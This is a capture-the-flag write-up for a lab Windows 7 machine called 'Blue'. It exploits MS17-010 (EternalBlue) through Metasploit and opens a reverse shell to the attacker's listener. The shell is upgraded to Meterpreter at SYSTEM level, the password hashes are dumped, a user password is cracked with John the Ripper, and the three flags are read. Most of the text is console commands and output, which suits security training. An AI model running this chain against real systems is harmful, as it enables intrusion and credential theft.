


Blue
Recon/OSINT¶
Attacker IP: 10.2.4.35
Target IP ($IP): 10.10.234.217
Enumeration¶
Nmap Scan¶
Enumerate open ports and services running on the target machine.

Let's run the vuln script to see if the target is vulnerable to any commonly known vulnerabilities.

Looks like the target it vulnerable to ms17-010: RCE vulnerability in Microsoft SMBv1 servers (Eternal Blue)
Exploitation¶
Let's start up Metasploit using the msfconsole command and exploit the vulnerability to gain a foothold on the target. Search for exploits related to ms17-010.
msf6 > search ms17-010
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/smb/ms17_010_eternalblue 2017-03-14 average Yes MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
1 exploit/windows/smb/ms17_010_psexec 2017-03-14 normal Yes MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
2 auxiliary/admin/smb/ms17_010_command 2017-03-14 normal No MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
3 auxiliary/scanner/smb/smb_ms17_010 normal No MS17-010 SMB RCE Detection
4 exploit/windows/smb/smb_doublepulsar_rce 2017-04-14 great Yes SMB DOUBLEPULSAR Remote Code Execution
Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
msf6 >
Let's get some more information on the exploit/windows/smb/ms17_010_eternalblue module.
msf6 > info 0
Name: MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
Module: exploit/windows/smb/ms17_010_eternalblue
Platform: Windows
Arch: x64
Privileged: Yes
License: Metasploit Framework License (BSD)
Rank: Average
Disclosed: 2017-03-14
Provided by:
Equation Group
Shadow Brokers
sleepya
Sean Dillon <sean.dillon@risksense.com>
Dylan Davis <dylan.davis@risksense.com>
thelightcosine
wvu <wvu@metasploit.com>
agalway-r7
cdelafuente-r7
cdelafuente-r7
agalway-r7
Available targets:
Id Name
-- ----
0 Automatic Target
1 Windows 7
2 Windows Embedded Standard 7
3 Windows Server 2008 R2
4 Windows 8
5 Windows 8.1
6 Windows Server 2012
7 Windows 10 Pro
8 Windows 10 Enterprise Evaluation
Check supported:
Yes
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target host(s), see https://github.com/rapid7/metasploit-framework
/wiki/Using-Metasploit
RPORT 445 yes The target port (TCP)
SMBDomain no (Optional) The Windows domain to use for authentication. Only affects
Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target
machines.
SMBPass no (Optional) The password for the specified username
SMBUser no (Optional) The username to authenticate as
VERIFY_ARCH true yes Check if remote architecture matches exploit Target. Only affects Wind
ows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target mach
ines.
VERIFY_TARGET true yes Check if remote OS matches exploit Target. Only affects Windows Server
2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
Payload information:
Space: 2000
Description:
This module is a port of the Equation Group ETERNALBLUE exploit,
part of the FuzzBunch toolkit released by Shadow Brokers. There is a
buffer overflow memmove operation in Srv!SrvOs2FeaToNt. The size is
calculated in Srv!SrvOs2FeaListSizeToNt, with mathematical error
where a DWORD is subtracted into a WORD. The kernel pool is groomed
so that overflow is well laid-out to overwrite an SMBv1 buffer.
Actual RIP hijack is later completed in
srvnet!SrvNetWskReceiveComplete. This exploit, like the original may
not trigger 100% of the time, and should be run continuously until
triggered. It seems like the pool will get hot streaks and need a
cool down period before the shells rain in again. The module will
attempt to use Anonymous login, by default, to authenticate to
perform the exploit. If the user supplies credentials in the
SMBUser, SMBPass, and SMBDomain options it will use those instead.
On some systems, this module may cause system instability and
crashes, such as a BSOD or a reboot. This may be more likely with
some payloads.
References:
https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
https://nvd.nist.gov/vuln/detail/CVE-2017-0143
https://nvd.nist.gov/vuln/detail/CVE-2017-0144
https://nvd.nist.gov/vuln/detail/CVE-2017-0145
https://nvd.nist.gov/vuln/detail/CVE-2017-0146
https://nvd.nist.gov/vuln/detail/CVE-2017-0147
https://nvd.nist.gov/vuln/detail/CVE-2017-0148
https://github.com/RiskSense-Ops/MS17-010
https://risksense.com/wp-content/uploads/2018/05/White-Paper_Eternal-Blue.pdf
https://www.exploit-db.com/exploits/42030
Also known as:
ETERNALBLUE
View the full module info with the info -d command.
msf6 >
Let's go ahead and use this module and set the RHOSTS and LHOST options.
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.234.217
RHOSTS => 10.10.234.217
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.2.4.35
LHOST => 10.2.4.35
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
Module options (exploit/windows/smb/ms17_010_eternalblue):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 10.10.234.217 yes The target host(s), see https://github.com/rapid7/metasploit-framewor
k/wiki/Using-Metasploit
RPORT 445 yes The target port (TCP)
SMBDomain no (Optional) The Windows domain to use for authentication. Only affects
Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 targe
t machines.
SMBPass no (Optional) The password for the specified username
SMBUser no (Optional) The username to authenticate as
VERIFY_ARCH true yes Check if remote architecture matches exploit Target. Only affects Win
dows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target ma
chines.
VERIFY_TARGET true yes Check if remote OS matches exploit Target. Only affects Windows Serve
r 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
Payload options (windows/x64/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 10.2.4.35 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic Target
View the full module info with the info, or info -d command.
msf6 exploit(windows/smb/ms17_010_eternalblue) >
Set the payload as reverse_tcp and run the exploit.
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
[*] Started reverse TCP handler on 10.2.4.35:4444
[*] 10.10.234.217:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.234.217:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.234.217:445 - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.234.217:445 - The target is vulnerable.
[*] 10.10.234.217:445 - Connecting to target for exploitation.
[+] 10.10.234.217:445 - Connection established for exploitation.
[+] 10.10.234.217:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.234.217:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.234.217:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.10.234.217:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.10.234.217:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1
[+] 10.10.234.217:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.234.217:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.234.217:445 - Sending all but last fragment of exploit packet
[*] 10.10.234.217:445 - Starting non-paged pool grooming
[+] 10.10.234.217:445 - Sending SMBv2 buffers
[+] 10.10.234.217:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.234.217:445 - Sending final SMBv2 buffers.
[*] 10.10.234.217:445 - Sending last fragment of exploit packet!
[*] 10.10.234.217:445 - Receiving response from exploit packet
[+] 10.10.234.217:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.234.217:445 - Sending egg to corrupted connection.
[*] 10.10.234.217:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.234.217
[*] Command shell session 1 opened (10.2.4.35:4444 -> 10.10.234.217:49230) at 2023-01-20 13:34:57 -0700
[+] 10.10.234.217:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.234.217:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.234.217:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
C:\Windows\system32>
Looks like we have an initial foothold.
Privilege Escalation¶
Background the current shell (Ctrl+Z) and upgrade our shell to a Meterpreter shell.
msf6 exploit(windows/smb/ms17_010_eternalblue) > show sessions
Active sessions
===============
Id Name Type Information Connection
-- ---- ---- ----------- ----------
2 shell x64/windows Shell Banner: Microsoft Windows [Version 10.2.4.35:4444 -> 10.10.234.217:49242 (10
6.1.7601] ----- .10.234.217)
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 post/multi/manage/shell_to_meterpreter normal No Shell to Meterpreter Upgrade
Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter
msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
msf6 post(multi/manage/shell_to_meterpreter) > show options
Module options (post/multi/manage/shell_to_meterpreter):
Name Current Setting Required Description
---- --------------- -------- -----------
HANDLER true yes Start an exploit/multi/handler to receive the connection
LHOST no IP of host that will receive the connection from the payload (Will try to a
uto detect).
LPORT 4433 yes Port for payload to connect to.
SESSION yes The session to run this module on
View the full module info with the info, or info -d command.
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 2
SESSION => 2
msf6 post(multi/manage/shell_to_meterpreter) > show options
Module options (post/multi/manage/shell_to_meterpreter):
Name Current Setting Required Description
---- --------------- -------- -----------
HANDLER true yes Start an exploit/multi/handler to receive the connection
LHOST no IP of host that will receive the connection from the payload (Will try to a
uto detect).
LPORT 4433 yes Port for payload to connect to.
SESSION 2 yes The session to run this module on
View the full module info with the info, or info -d command.
msf6 post(multi/manage/shell_to_meterpreter) > exploit
[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.2.4.35:4433
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) >
[*] Sending stage (200774 bytes) to 10.10.234.217
[*] Meterpreter session 3 opened (10.2.4.35:4433 -> 10.10.234.217:49249) at 2023-01-20 13:50:44 -0700
[*] Stopping exploit/multi/handler
msf6 post(multi/manage/shell_to_meterpreter) > show sessions
Active sessions
===============
Id Name Type Information Connection
-- ---- ---- ----------- ----------
2 shell x64/windows Shell Banner: Microsoft Windows [Vers 10.2.4.35:4444 -> 10.10.234.217:49242
ion 6.1.7601] ----- (10.10.234.217)
3 meterpreter x64/windows NT AUTHORITY\SYSTEM @ JON-PC 10.2.4.35:4433 -> 10.10.234.217:49249
(10.10.234.217)
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i -3
[-] Invalid session identifier: -3
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 3
[*] Starting interaction with 3...
meterpreter > shell
Process 2188 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
C:\Windows\system32>
Looks like we are NT AUTHORITY\SYSTEM.
List the running processes using the ps command.
C:\Windows\system32>exit
exit
meterpreter > ps
Process List
============
PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----
0 0 [System Process]
4 0 System x64 0
416 4 smss.exe x64 0 NT AUTHORITY\SYSTEM \SystemRoot\System32\smss.exe
428 712 svchost.exe x64 0 NT AUTHORITY\SYSTEM
488 712 svchost.exe x64 0 NT AUTHORITY\SYSTEM
564 556 csrss.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\csrss.exe
612 556 wininit.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\wininit.exe
624 604 csrss.exe x64 1 NT AUTHORITY\SYSTEM C:\Windows\system32\csrss.exe
664 604 winlogon.exe x64 1 NT AUTHORITY\SYSTEM C:\Windows\system32\winlogon.exe
712 612 services.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\services.exe
720 612 lsass.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\lsass.exe
728 612 lsm.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\lsm.exe
836 712 svchost.exe x64 0 NT AUTHORITY\SYSTEM
904 712 svchost.exe x64 0 NT AUTHORITY\NETWORK SERVICE
952 712 svchost.exe x64 0 NT AUTHORITY\LOCAL SERVICE
1020 664 LogonUI.exe x64 1 NT AUTHORITY\SYSTEM C:\Windows\system32\LogonUI.exe
1088 712 svchost.exe x64 0 NT AUTHORITY\LOCAL SERVICE
1160 2924 cmd.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\cmd.exe
1192 712 svchost.exe x64 0 NT AUTHORITY\NETWORK SERVICE
1352 712 svchost.exe x64 0 NT AUTHORITY\LOCAL SERVICE
1416 712 amazon-ssm-agent.e x64 0 NT AUTHORITY\SYSTEM C:\Program Files\Amazon\SSM\amazon-s
xe sm-agent.exe
1488 712 LiteAgent.exe x64 0 NT AUTHORITY\SYSTEM C:\Program Files\Amazon\XenTools\Lit
eAgent.exe
1628 712 Ec2Config.exe x64 0 NT AUTHORITY\SYSTEM C:\Program Files\Amazon\Ec2ConfigSer
vice\Ec2Config.exe
1932 712 svchost.exe x64 0 NT AUTHORITY\NETWORK SERVICE
2068 712 TrustedInstaller.e x64 0 NT AUTHORITY\SYSTEM
xe
2080 836 WmiPrvSE.exe
2200 564 conhost.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\conhost.exe
2256 712 svchost.exe x64 0 NT AUTHORITY\LOCAL SERVICE
2380 564 conhost.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\conhost.exe
2444 712 sppsvc.exe x64 0 NT AUTHORITY\NETWORK SERVICE
2592 712 vds.exe x64 0 NT AUTHORITY\SYSTEM
2684 712 svchost.exe x64 0 NT AUTHORITY\SYSTEM
2736 712 SearchIndexer.exe x64 0 NT AUTHORITY\SYSTEM
2876 2400 powershell.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\WindowsPowerShel
l\v1.0\powershell.exe
2924 712 spoolsv.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\spoolsv.exe
meterpreter >
Let's migrate to PID 2924 (spoolsv.exe)
meterpreter > migrate 2924
[*] Migrating from 2876 to 2924...
/usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:998: warning: Exception in finalizer #<Proc:0x00007f099d3d08d0 /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:339>
/usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:147:in `synchronize': can't be called from trap context (ThreadError)
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:147:in `send_packet'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:220:in `send_packet_wait_response'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:176:in `send_request'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:362:in `close'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:339:in `block in finalize'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:998:in `chr'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:998:in `block in xor_bytes'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:997:in `each_byte'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:997:in `xor_bytes'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:952:in `to_r'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:137:in `send_packet'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:220:in `send_packet_wait_response'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:176:in `send_request'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/client_core.rb:654:in `migrate'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console/command_dispatcher/core.rb:1254:in `cmd_migrate'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:581:in `run_command'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console.rb:102:in `run_command'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:530:in `block in run_single'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `each'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `run_single'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console.rb:64:in `block in interact'
from /usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:157:in `run'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console.rb:62:in `interact'
from /usr/share/metasploit-framework/lib/msf/base/sessions/meterpreter.rb:565:in `_interact'
from /usr/share/metasploit-framework/lib/rex/ui/interactive.rb:53:in `interact'
from /usr/share/metasploit-framework/lib/msf/ui/console/command_dispatcher/core.rb:1682:in `cmd_sessions'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:581:in `run_command'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:530:in `block in run_single'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `each'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `run_single'
from /usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:162:in `run'
from /usr/share/metasploit-framework/lib/metasploit/framework/command/console.rb:48:in `start'
from /usr/share/metasploit-framework/lib/metasploit/framework/command/base.rb:82:in `start'
from /usr/bin/msfconsole:23:in `<main>'
/usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:998: warning: Exception in finalizer #<Proc:0x00007f099d178a10 /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:339>
/usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:147:in `synchronize': can't be called from trap context (ThreadError)
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:147:in `send_packet'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:220:in `send_packet_wait_response'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:176:in `send_request'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:362:in `close'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:339:in `block in finalize'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:998:in `chr'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:998:in `block in xor_bytes'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:997:in `each_byte'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:997:in `xor_bytes'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet.rb:952:in `to_r'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:137:in `send_packet'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/packet_dispatcher.rb:220:in `send_packet_wait_response'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/client_core.rb:293:in `load_library'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/client_core.rb:378:in `use'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/client_core.rb:705:in `block in migrate'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/client_core.rb:704:in `each'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/client_core.rb:704:in `migrate'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console/command_dispatcher/core.rb:1254:in `cmd_migrate'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:581:in `run_command'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console.rb:102:in `run_command'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:530:in `block in run_single'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `each'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `run_single'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console.rb:64:in `block in interact'
from /usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:157:in `run'
from /usr/share/metasploit-framework/lib/rex/post/meterpreter/ui/console.rb:62:in `interact'
from /usr/share/metasploit-framework/lib/msf/base/sessions/meterpreter.rb:565:in `_interact'
from /usr/share/metasploit-framework/lib/rex/ui/interactive.rb:53:in `interact'
from /usr/share/metasploit-framework/lib/msf/ui/console/command_dispatcher/core.rb:1682:in `cmd_sessions'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:581:in `run_command'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:530:in `block in run_single'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `each'
from /usr/share/metasploit-framework/lib/rex/ui/text/dispatcher_shell.rb:524:in `run_single'
from /usr/share/metasploit-framework/lib/rex/ui/text/shell.rb:162:in `run'
from /usr/share/metasploit-framework/lib/metasploit/framework/command/console.rb:48:in `start'
from /usr/share/metasploit-framework/lib/metasploit/framework/command/base.rb:82:in `start'
from /usr/bin/msfconsole:23:in `<main>'
[*] Migration completed successfully.
meterpreter >
Let's dump the password hashes using command hashdump in meterpreter.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter >
We can use John the Ripper to crack the hash.
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > hash2crack.txt
john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --format=NT hash2crack.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22 (Jon)
1g 0:00:00:03 DONE (2023-01-20 14:15) 0.3236g/s 3301Kp/s 3301Kc/s 3301KC/s alqueva1968..alpus
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
Credentials Found: Jon:alqfna22
Post-Exploitation¶
First flag is in C:\.
C:\>dir
dir
Volume in drive C has no label.
Volume Serial Number is E611-0B66
Directory of C:\
03/17/2019 01:27 PM 24 flag1.txt
07/13/2009 09:20 PM <DIR> PerfLogs
04/12/2011 02:28 AM <DIR> Program Files
03/17/2019 04:28 PM <DIR> Program Files (x86)
12/12/2018 09:13 PM <DIR> Users
03/17/2019 04:36 PM <DIR> Windows
1 File(s) 24 bytes
5 Dir(s) 20,398,546,944 bytes free
C:\>type flag1.txt
type flag1.txt
flag{access_the_machine}
C:\>
Flag 2 is in the C:\Windows\System32\config folder.
C:\Windows\System32\config>dir
dir
Volume in drive C has no label.
Volume Serial Number is E611-0B66
Directory of C:\Windows\System32\config
01/20/2023 01:42 PM <DIR> .
01/20/2023 01:42 PM <DIR> ..
12/12/2018 05:00 PM 28,672 BCD-Template
01/20/2023 01:51 PM 18,087,936 COMPONENTS
01/20/2023 03:17 PM 262,144 DEFAULT
03/17/2019 01:32 PM 34 flag2.txt
07/13/2009 08:34 PM <DIR> Journal
01/20/2023 02:11 PM <DIR> RegBack
03/17/2019 02:05 PM 262,144 SAM
01/20/2023 01:51 PM 262,144 SECURITY
01/20/2023 03:17 PM 40,632,320 SOFTWARE
01/20/2023 03:23 PM 12,582,912 SYSTEM
11/20/2010 08:41 PM <DIR> systemprofile
12/12/2018 05:03 PM <DIR> TxR
8 File(s) 72,118,306 bytes
6 Dir(s) 20,398,546,944 bytes free
C:\Windows\System32\config>type flag2.txt
type flag2.txt
flag{sam_database_elevated_access}
C:\Windows\System32\config>
Flag 3 is in Documents folder for Jon.
C:\Users\Jon\Documents>dir
dir
Volume in drive C has no label.
Volume Serial Number is E611-0B66
Directory of C:\Users\Jon\Documents
12/12/2018 09:49 PM <DIR> .
12/12/2018 09:49 PM <DIR> ..
03/17/2019 01:26 PM 37 flag3.txt
1 File(s) 37 bytes
2 Dir(s) 20,398,546,944 bytes free
C:\Users\Jon\Documents>type flag3.txt
type flag3.txt
flag{admin_documents_can_be_valuable}
C:\Users\Jon\Documents>